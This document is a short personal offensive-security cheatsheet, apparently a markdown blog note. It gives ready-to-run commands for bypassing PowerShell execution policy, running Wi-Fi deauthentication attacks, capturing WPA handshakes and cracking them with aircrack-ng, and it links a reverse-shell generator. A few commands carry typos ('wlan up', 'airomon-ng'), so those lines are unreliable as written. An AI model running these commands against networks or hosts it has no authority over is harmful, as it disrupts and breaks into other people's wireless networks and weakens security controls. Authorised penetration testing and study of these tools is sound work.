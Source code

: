 ```yaml
---
author: clausmalver
title: Offensive Security Cheatsheet
description: A note for quick glances anything related for offensive security.
date: 2024-09-22
categories: [Notes, Hacking]
tags: [linux, powershell, hacking, offensive]
---
```

## Clone a website

Clone a website including images, css, etc.
`wget -mk -nH [URL]`

## Bypass Powershell Execution Policy
`Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted`

## Reverse shells
[Reverse Shell Generator](https://www.revshells.com/)

## Wireless

Collection of notes regarding wireless attack or similar.

### Alfa Networks

Get USB wifi adapter into monitor mode

```
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan up
```
Check if adapter is in monitor mode

`iwconfig wlan0`

### Wifi monitor using Kismet

`kismet -c wlan0 -p ~/log_directory -t output_file`

### Wifi monitor using airodump

`sudo airodump-ng wlan0`

### Deauth attacks

[wifi-deauth](https://github.com/flashnuke/wifi-deauth) - Python script for deauthing attacks

Install and run on system
```
git clone https://github.com/flashnuke/wifi-deauth.git
sudo pip3 install .
sudo wifi-deauth -i <wireless interface>
```

Remember to let it run for a bit so the app can collect clients it can deauth

### Stop interfering processes using airmon-ng

List possible interfering procceses
`sudo airmon-ng check`

Kill them
`sudo airmon-ng check kill`

### Crack WPA wifi

Set interface to monitor

```bash
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
```

Kill all processes that uses the interface
`sudo airmon-ng check kill`

Note: `systemctl start NetworkManager` to start the Network services again

Start monitoring on the interface
`sudo airomon-ng [INTERFACE]`

Start capture on all channels
`airodump-ng [INTERFACE]`

Specify the BSSID and Channel, and start capture the handshake
`airodump-ng -c [CHANNEL] --bssid [MAC ADRESS] -w [OUTPUTFILE] wlan0`

Crack the WPA password
`aircrack-ng -w [WORDLIST] -b [BBSID] [PCAP FILE]`
